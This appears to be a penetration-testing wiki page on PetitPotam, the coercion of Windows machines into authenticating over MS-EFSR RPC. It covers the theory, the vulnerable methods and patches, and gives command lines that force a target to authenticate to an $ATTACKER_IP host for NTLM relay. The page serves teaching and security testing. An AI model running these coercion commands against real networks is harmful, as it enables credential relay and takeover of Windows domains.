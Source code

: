 # MS-EFSR abuse (PetitPotam)

## Theory

MS-EFSR is Microsoft's Encrypting File System Remote protocol. It performs maintenance and management operations on encrypted data that is stored remotely and accessed over a network ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-efsr)) and is available as an RPC interface. That interface is available through the `\pipe\efsrpc`, `\pipe\lsarpc`, `\pipe\samr`, `\pipe\lsass` and `\pipe\netlogon` SMB named pipes.

In 2019, Google's Project Zero research team found and reported a bug on MS-EFSR that could be combined with a [NTLM Reflection attack](https://bugs.chromium.org/p/project-zero/issues/detail?id=222) leading to a Local Privilege Elevation. An insufficient path check in MS-EFSR's `EfsRpcOpenFileRaw` method allowed attackers to force the `SYSTEM` account into creating an executable file of the attacker's choosing, hence providing the attacker with local admin rights.

While the wider implications of this bug, AD-DS-wise, were only suspected, in 2021, [Lionel GILLES](https://twitter.com/topotam77/status/1416833996923809793) used that bug to remotely coerce domain-joined machine's authentication. **The coerced authentications are made over SMB**. But MS-EFSR abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The following MS-EFSR's methods were detected vulnerable

* `EfsRpcOpenFileRaw` and `EfsRpcEncryptFileSrv` ([patched by Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942))
* `EfsRpcEncryptFileSrv`, `EfsRpcDecryptFileSrv`, `EfsRpcQueryUsersOnFile`, `EfsRpcQueryRecoveryAgents`, `EfsRpcRemoveUsersFromFile`, `EfsRpcAddUsersToFile`, `EfsRpcFileKeyInfo`, `EfsRpcDuplicateEncryptionInfoFile`, `EfsRpcAddUsersToFileEx` (unpatched at the time of this article update, 29th December 2021)

## Practice

An authentication can be forced with the original author's proof-of-concepts dubbed "[PetitPotam](https://github.com/topotam/PetitPotam)" (available in C and Python) by using a valid AD account's credentials.

```bash
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

An alternative Python implementation ([https://github.com/ly4k/PetitPotam](https://github.com/ly4k/PetitPotam)) can be used to exploit other unpatched methods that the original implementation doesn't feature.

```bash
petitpotam.py -method AddUsersToFile $TARGET_IP '\\$ATTACKER_IP\share\foo'
```

{% hint style="info" %}
**Nota bene**: coerced NTLM authentications made over SMB restrict the possibilities of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

{% hint style="success" %}
Some tests conducted in lab environments showed that, unlike the [MS-RPRN abuse (printbug)](ms-rprn.md), a NULL session could potentially be used to trigger that bug (if allowed by the target). This has only been verified to be working on on Windows Server 2016 and Windows Server 2019 Domain Controllers.

```bash
Petitpotam.py $ATTACKER_IP $TARGET_IP
```
{% endhint %}

## Resources

{% embed url="https://www.exploit-db.com/exploits/47115" %}

{% embed url="https://github.com/topotam/PetitPotam" %}

{% embed url="https://github.com/ly4k/PetitPotam" %}
&#x20;
{% endembed %}
